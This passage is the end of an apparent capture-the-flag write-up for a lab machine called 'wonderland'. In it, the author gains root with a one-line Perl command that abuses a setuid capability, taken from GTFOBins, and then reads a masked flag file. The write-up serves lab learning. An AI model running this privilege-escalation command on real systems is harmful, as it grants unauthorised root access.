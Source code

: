 
* > Using [gftobins](https://gtfobins.github.io/gtfobins/perl/) i could find a exploit that would grant me root using perl. I ran the Capabilities exploit:
  >

```bash
hatter@wonderland:/home/alice$/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# ls 
random.py  root.txt  walrus_and_the_carpenter.py
# cat root.txt
thm{***************************************** at!}
```


*Finally ,we finished this Machine.*

# Congratulations!!
